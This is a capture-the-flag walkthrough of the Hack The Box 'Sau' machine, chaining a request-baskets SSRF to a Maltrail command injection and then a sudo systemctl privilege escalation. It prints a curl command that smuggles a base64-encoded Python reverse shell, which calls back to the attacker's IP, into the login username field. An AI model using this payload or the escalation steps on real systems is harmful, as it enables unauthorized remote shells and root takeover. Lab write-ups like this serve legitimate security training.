 ```yaml
---
title: "Hack The Box Machine - Sau"
description: "Walkthrough of the Sau machine from Hack The Box - an easy Linux box involving SSRF exploitation, Maltrail vulnerability, and privilege escalation"
createdAt: 2023-07-29
image: "../assets/spectre.png"
tags:
  - hackthebox
  - easy
  - cybersecurity
draft: false
---
```


### Easy Box


![Sau](https://www.hackthebox.com/storage/avatars/1ea2980b9dc2d11cf6a3f82f10ba8702.png)


| Name | Sau|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | July 8, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1



## Port Scan
I actually wanted to test Naabu as my scanner of choice to be able to enumerate the host. I just Naabu to scan all of the ports and Naabu has a feature to then pump the ports to nmap. This was my command and output.

```sh
solidshadw@solidManjaro  ~/Downloads   
$ sudo naabu -p - -host 10.10.11.224 -nmap-cli 'nmap -sV -oX nmap-outpu  
t'
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.6 (latest)  
[INF] Running host discovery scan  
[INF] Running SYN scan with CAP_NET_RAW privileges  
[INF] Found 2 ports on host 10.10.11.224 (10.10.11.224)  
10.10.11.224:55555  
10.10.11.224:22  
[INF] Running nmap command: nmap -sV -oX nmap-output -p 22,55555 10.10.  
11.224  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:30 MDT  
Nmap scan report for 10.10.11.224  
Host is up (0.069s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux;  
protocol 2.0)  
55555/tcp open  unknown  
1 service unrecognized despite returning data. If you know the service/  
version, please submit the following fingerprint at https://nmap.org/cg  
i-bin/submit.cgi?new-service :  
SF-Port55555-TCP:V=7.94%I=7%D=7/29%Time=64C576E7%P=x86_64-pc-linux-gnu%  
r(G  
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm  
l;\  
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\  
"/w  
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2  
0Re  
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection  
:\x  
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x  
202  
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ  
est  
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla  
in;  
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque  
st"  
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20  
tex  
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\  
x20  
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n  
Con  
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r  
\n\  
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204  
00\  
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r  
\nC  
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6  
7,"  
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x  
20c  
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%  
r(K  
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t  
ext  
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x  
20R  
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\  
r\n  
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti  
ons  
SF::\x20nosniff\r\nDate:\x20Sat,\x2029\x20Jul\x202023\x2020:30:58\x20GM  
T\r  
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20  
nam  
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}  
\$\  
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty  
pe:  
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\  
x20  
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ  
est  
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20  
clo  
SF:se\r\n\r\n400\x20Bad\x20Request");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at htt  
ps://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 89.64 seconds
```

Looks like we found 2 ports opened. Port 22 and Port 55555. 

## Port 55555
Looks like this port is running a web interface

![image](../assets/20230729160044.png)

As I inspect the app. Looks like you can create a webhook like in which it collects and inspects the data sent over. 

We can send requests to the basket that I created `http://10.10.11.224:55555/web/gfr64fy`. 

![image1](../assets/20230729160639.png)

On the main page, I saw a version number `Version: 1.2.1`. Which I proceeded to look any potential vulnerabilities and bingo. https://github.com/advisories/GHSA-58g2-vgpg-335q, 
Looks like it is vulnerable to SSRF. As I continue to dig into this vulnerability, seems that it is exploiting the `/api/baskets/{name}`. That means that every time we visit that site, that api path gets called and triggered. 

Exploring that app a bit more, I found that you can forward URLs. 

![image2](../assets/20230729161754.png)

I stumbled upon this [article](https://notes.sjtu.edu.cn/s/MUUhEymt7)  that was explaining the SSRF vulnerability and they used this feature of forward URL to exploit the SSRF to find any other webservers not exposed to internet. They found more resources on the localhost that where to not available on our initial scan. So, I tried on port 80 and boom we got another webserver. 

![iamge3](../assets/20230729162117.png)

![image4](../assets/20230729162133.png)

It looks like it is a Maltrail from the description at the bottom. It also exposes a version `v0.53`. A quick google search, you can find that version is vulnerable to an Unauthenticated RCE(the best kind) https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.

We will need to add the `/login` at the end because it looks that is where that RCE happens. So, in the end our config will look something like this:

![image5](../assets/20230729162522.png)

## Payload to get RevShell

I started testing the RCE by sending a curl command to my host.

![image6](../assets/20230730211002.png)

Which it was successful! So, we know that it is working. 

![image8](../assets/20230730211042.png)

I tried the basic sh revershell but I couldn't get it to work, not sure why. When digging into this RCE I found this [article](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661) in which they craft a python reverse shell and echo it in base64 and decode and execute with bash. This was my final payload:

```bash
$ curl 'http://10.10.11.224:55555/gfr64fy' \         
 --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZ  
XNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJF  
QU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiw4MDg1KSk7b3MuZHVwMihzLmZpbGVubyg  
pLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG  
9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```

After executing it, it worked!

![image9](../assets/20230729154901.png)

## Privilege Escalation Payload

Looks like we are running as the user "puma". I ran the command `sudo -l` to see if he's able to run any commands as sudo without a password.

![image10](../assets/20230729155419.png)

A quick google search on privilege escalation when running `systemctl status` landed me on this page https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/. 

So, the final payload is divided in two parts. The first is:
```bash 
sudo systemctl status trail.service
```
And then you run:
```bash
!sh
```

And that drops you into a shell. We have made it to root. 

![image11](../assets/20230729155249.png)